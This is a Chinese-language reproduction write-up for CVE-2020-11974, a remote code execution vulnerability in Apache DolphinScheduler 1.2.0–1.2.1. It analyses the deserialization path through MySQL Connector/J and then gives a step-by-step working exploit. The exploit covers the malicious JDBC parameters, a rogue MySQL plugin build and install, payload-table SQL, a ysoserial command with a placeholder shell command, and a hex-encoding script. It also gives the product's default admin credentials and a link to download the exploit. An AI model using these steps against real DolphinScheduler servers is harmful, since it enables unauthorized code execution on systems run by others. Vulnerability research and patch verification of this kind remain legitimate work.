 （CVE-2020-11974）Apache DolphinScheduler 远程代码执行漏洞
==========================================================

一、漏洞简介
------------

CVE-2020-11974与mysql
connectorj远程执行代码漏洞有关，在选择mysql作为数据库时，攻击者可通过`jdbc connect`参数输入`{“detectCustomCollations”:true，“ autoDeserialize”:true}`
即可在DolphinScheduler 服务器上远程执行代码

二、漏洞影响
------------

Apache DolphinScheduler = 1.2.0、1.2.1

三、复现过程
------------

### 漏洞分析

看到这个poc的时候

    {"detectCustomCollations":true,"autoDeserialize":true,"serverTimezone":"UTC"}

其实我第一反应就是2019年的blackhat的那个利用但我又不太确定，直到我按照其他师傅复现的19年的blackhat的那个漏洞利用方式来复现成功，仔细分析了一波。我们先看这个创建数据库的接口。当我们点击create之后

![1.png](./.resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId25.png)

进入该controller

![2.png](./.resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId26.png)

并调用service层的createDataSource方法

![3.png](./.resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId27.png)

最终调用DriverManager.getConnection进行连接数据库

![4.png](./.resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId28.png)

我把这段代码拿出来，有没有很熟悉

    connection = DriverManager.getConnection(datasource.getJdbcUrl(), datasource.getUser(), datasource.getPassword());

![11.png](./.resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId29.png)

（其实也可以直接用其他师傅之前写的Fake\_Mysql\_Server，我这边就不再去试了。）分析到这里还不够，我们回来看看这个Mysql Connector/j的版本号
5.1.34符合其他师傅复现的那个洞的版本号

![5.png](./.resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId30.png)

除此以外，发现yso的利用链跟commons-collections的版本号也是3.2.2也不符合，一开始想着去寻找其他的利用链路，后来参考了下fnmsd师傅的文章发现，已经找到了利用链，那就是直接复现这个洞就好了

![6.png](./.resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId31.png)

跟进
DriverManager.getConnection，继续接着上面的连接分析，而当detectCustomCollations设置为true的时候com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor

![7.png](./.resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId32.png)

跟进后

![8.png](./.resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId33.png)

最终进入到getObject

![9.png](./.resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId34.png)

最终反序列化我们传入的payload

![10.png](./.resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId35.png)

### 漏洞复现

-   配置mysql

#### 1. 安装rewrite插件

以下安装方式任选其一

##### 【任选】编译插件

下载mysql-5.7.28源码到/root/mysql-5.7.28，`https://launchpadlibrarian.net/451650638/mysql-5.7_5.7.28.orig.tar.gz`

       gcc -shared -Wall -fPIC -o /usr/lib/mysql/plugin/rewrite_example.so rewrite_example.cc  -I/root/mysql-5.7.28/include $(mysql_config --cflags) $(mysql_config --libmysqld-libs) -DMYSQL_DYNAMIC_PLUGIN -lmysqlservices

##### 【任选】直接使用本git仓库中的rewrite\_example.so

复制rewrite\_example.so到/usr/lib/mysql/plugin/rewrite\_example.so即可。

> rewrite\_example.so在Ubuntu16.04编译，如安装时出现问题请自行编译。

#### 2. 安装插件，建表，插入二进制数据

安装插件

    INSTALL PLUGIN rewrite_example SONAME 'rewrite_example.so';

建表

1.  创建数据库：codeplutos，请自行创建
2.  建表sql如下

```{=html}
<!-- -->
```
    SET NAMES utf8mb4;
    SET FOREIGN_KEY_CHECKS = 0;

    -- ----------------------------
    -- Table structure for payload
    -- ----------------------------
    DROP TABLE IF EXISTS `payload`;
    CREATE TABLE `payload` (
      `COLLATION_NAME` varchar(255) DEFAULT NULL,
      `CHARACTER_SET_NAME` blob,
      `ID` int(5) DEFAULT NULL,
      `IS_DEFAULT` varchar(255) DEFAULT NULL,
      `IS_COMPILED` varchar(255) DEFAULT NULL,
      `SORTLEN` int(5) DEFAULT NULL
    ) ENGINE=InnoDB DEFAULT CHARSET=utf8;

    -- ----------------------------
    -- Records of payload
    -- ----------------------------
    BEGIN;
    INSERT INTO `payload` VALUES ('1big5_chinese_ci', 0x01, 1, 'Yes', 'Yes', 1);
    COMMIT;

    SET FOREIGN_KEY_CHECKS = 1;

生成payload

首先ysoserial生成payload（我这里直接用fnmsd师傅改的改的ysoserial.jar)

    java -jar ysoserial-0.0.6-SNAPSHOT-all.jar JRE8u20 "touch /tmp/1.txt" > t

`touch /tmp/1.txt`
这个替换成自己想要执行的命令，在同个目录下用这个py脚本进行转码生成payload字符

    import os
    import binascii
    with open("t", 'rb') as f:
            payload_content = str(binascii.b2a_hex(f.read()))
            print payload_content

![1.png](./.resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId41.png)

写入数据库

    set @a=0x这里修改为你的payload；
    update codeplutos.payload set character_set_name = @a;

默认用户名密码登陆

`admin/dolphinscheduler123`

![2.png](./.resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId42.png)

点击添加数据库

![3.png](./.resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId43.png)

填入信息，点击create（而不是connect，我在这里踩过坑）

![4.png](./.resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId44.png)

复现成功，创建了一个1.txt

![5.png](./.resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId45.png)

#### 上述中的poc下载地址

`https://download.0-sec.org/Web安全/Apache DolphinScheduler/CVE-2020-11974/DolphinschedulerExploit-master.zip`

参考链接
--------

> https://xz.aliyun.com/t/8304

